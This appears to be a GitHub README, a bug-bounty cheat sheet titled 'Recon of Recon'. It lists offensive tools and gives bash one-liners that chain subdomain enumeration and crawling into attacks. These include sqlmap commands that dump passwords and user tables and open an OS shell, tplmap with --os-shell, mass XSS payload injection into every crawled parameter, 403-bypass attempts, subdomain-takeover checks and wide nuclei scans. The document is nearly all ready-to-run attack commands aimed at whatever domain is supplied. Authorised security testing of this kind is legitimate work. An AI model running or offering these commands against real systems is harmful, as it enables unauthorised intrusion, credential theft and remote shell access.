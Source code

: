## Recon of Recon

## Credits

[OFJAAAH](https://github.com/OFJAAAH)<br>
[c4ng4c3ir0 ](https://github.com/c4ng4c3ir0)<br>

## Tools

[Subfinder](https://github.com/projectdiscovery/subfinder)<br>
[Sqlmap](https://github.com/sqlmapproject/sqlmap)<br>
[Katana](https://github.com/projectdiscovery/katana)<br>
[Gospider](https://github.com/jaeles-project/gospider)<br>
[Httpx-ToolKit](https://www.kali.org/tools/httpx-toolkit/)<br>
[Qsreplace](https://github.com/tomnomnom/qsreplace)<br>
[Airixss](https://github.com/ferreiraklet/airixss)<br>
[Uro](https://github.com/s0md3v/uro)<br>
[Nuclei](https://github.com/projectdiscovery/nuclei)<br>
[Freq](https://github.com/takshal/freq)<br>
[Hakrawler](https://github.com/hakluke/hakrawler)<br>
[Findomain](https://github.com/Edu4rdSHL/findomain)<br>
[Anew](https://github.com/tomnomnom/anew)<br>
[WayBackUrls](https://github.com/tomnomnom/waybackurls)<br>
[gf](https://github.com/tomnomnom/gf)<br>
[waybackrobots](https://github.com/vodafon/waybackrobots)<br>
[Dalfox](https://github.com/hahwul/dalfox)<br>
[XssTrike](https://github.com/s0md3v/XSStrike)<br>
[Gau](https://github.com/lc/gau)<br>
[Subzy](https://github.com/PentestPad/subzy)<br>
[Whatweb](https://www.kali.org/tools/whatweb/)<br>
[Nikto](https://github.com/sullo/nikto/tree/master)<br>
[Tplmap](https://github.com/epinna/tplmap)<br>
[Parabellum](https://github.com/wtechsec/Parabellum-XSS-Scanner/tree/main)<br>
[FFUF](https://github.com/ffuf/ffuf)<br>
[Dirsearch](https://github.com/maurosoria/dirsearch)<br>
[FuzzingTemplates](https://github.com/projectdiscovery/fuzzing-templates/tree/main)<br>
[Byp4xx](https://github.com/Rizsyad/byp4xx)<br>


###  Dorks. 

```bash
inurl:responsible disclosure program
inurl:vulnerability disclosure program
inurl:vulnerability program rewards
inurl:security report vulnerability
inurl:bugbounty reward program 
```


###  HTTP200. 

```bash
subfinder -d $(cat url) | httpx-toolkit -silent -sc -t 1000 | anew http200;
```

###  WaybackRobots. 

```bash
cat http200 | waybackrobots -d $(cat url) -raw | anew wayROBOTS;
```

###  Sqlmap. 

```bash
findomain -t $(cat url) -q | httpx-toolkit -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1 | anew sqlmap;

python sqlmap.py -u "www.exemplo.com?id=1" --batch --banner
python sqlmap.py -u "www.exemplo.com?id=1" --batch --passwords
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dbs
python sqlmap.py -u "www.exemplo.com?id=1" --batch --tables -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --dump -T users -D testdb
python sqlmap.py -u "www.exemplo.com?id=1" --batch --os-shell
```

###  Whatweb. 

```bash
whatweb $(cat url) | anew whatweb;
```


###  Subfinder. 

```bash
subfinder -d $(cat url) -silent -all | httpx-toolkit -silent | anew subfinder;
```

###  SSTI. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '{{7*7}}' | freq | anew ssti;
```


###  SubzyTakeOver. 

```bash
subzy run --targets subfinder | anew subzytakeover;
```


###  Katana crawling. 

```bash
cat subfinder | katana -d 5 -silent | grep -iE '\.js'| grep -iEv '(\.jsp|\.json)' | anew KatanaCrawling1;

cat subfinder | katana -d 5 -silent -em js,jsp,json | anew KatanaCrawling2;
```


###  Dalfox. 

```bash
sudo dalfox url https://testphp.vulnweb.com/listproducts.php?cat=
```

###  Parabellum. 

```bash
sudo python3 Parabellum-XSS-Scanner.py
```


###  Nikto. 

```bash
cd nikto/program
./nikto.pl -h http://www.example.com
```

###  Tplmap. 

```bash
python2.7 ./tplmap.py -u '<http://www.target.com/page?name=John*>' --os-shell
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=*&comment=supercomment&link>"
python2.7 ./tplmap.py -u "<http://192.168.56.101:3000/ti?user=InjectHere*&comment=A&link>" --level 5 -e jade
```

###  Crt.sh. 

```bash
curl -s "https://crt.sh/?q=$(cat url)&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | httpx-toolkit -title -silent | anew crtsh;
```

###  BYP4XX. 

```bash
python3 byp4xx.py --url https://$(cat url) --dir secret --header | anew byp4xxheader;
python3 byp4xx.py --url https://$(cat url) --dir secret --protocol | anew byp4xxprotocol;
python3 byp4xx.py --url https://$(cat url) --dir secret --port | anew byp4xxport;
python3 byp4xx.py --url https://$(cat url) --dir secret --method | anew byp4xxmethod;
python3 byp4xx.py --url https://$(cat url) --dir secret --encode | anew byp4xxencode;
python3 byp4xx.py --url https://$(cat url) --dir secret --all | anew byp4xxall;
```


###  XssTrike. 

```bash
sudo python3 xsstrike.py -u http://testphp.vulnweb.com/

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\=

sudo python3 xsstrike.py -u http://testphp.vulnweb.com/listproducts.php\?cat\= -f payforce.txt
```

### FuzzingTemplates.

```bash
nuclei -t fuzzing-templates -list allurls | anew fuzzingtemplates;
```

### Dirsearch.

```bash
sudo python3 dirsearch -u https://target.com | anew dirsearch;
```


###  Gau. 

```bash
gau $(cat url) | grep "\.js" | anew gau
```


###  Gospider. 

```bash
gospider -d 0 -s $(cat url) -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew gospider
```

###  FFUF. 

```bash
ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u https://$(cat url)/FUZZ -mc all -c -v | anew ffuf
```


###  Xss1. 

```bash
echo $(cat url) | httpx-toolkit -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not' | anew xss1;
```



###  Xss2. 

```bash
echo $(cat url) | httpx-toolkit -silent | katana -d 10 -silent | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss2;
```



###  Xss3. 

```bash
echo $(cat url) | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq | egrep -v 'Not' | anew xss3;
```


###  Xss4. 

```bash
gau $(cat url) | httpx-toolkit -silent | qsreplace '<script>alert(1)</script>' | freq | egrep -v 'Not' | anew xss4;
```


###  OpenRedirect gf. 

```bash
echo $(cat url) | waybackurls | httpx-toolkit -silent -timeout 2 -threads 100 | gf redirect | anew openRedirect
```


###  Nuclei. 

```bash
echo $(cat url) | subfinder -silent | httpx-toolkit -p 80,443,81,300,591,593,832,981,1010,1311,1099,2082,2095,2096,2480,3000,3128,3333,4243,4567,4711,4712,4993,5000,5104,5108,5280,5281,5601,5800,6543,7000,7001,7396,7474,8000,8001,8008,8014,8042,8060,8069,8080,8081,8083,8088,8090,8091,8095,8118,8123,8172,8181,8222,8243,8280,8281,8333,8337,8443,8500,8834,8880,8888,8983,9000,9001,9043,9060,9080,9090,9091,9200,9443,9502,9800,9981,10000,10250,11371,12443,15672,16080,17778,18091,18092,20720,32000,55440,55672 | nuclei -severity low,medium,high,critical | anew nuclei
```

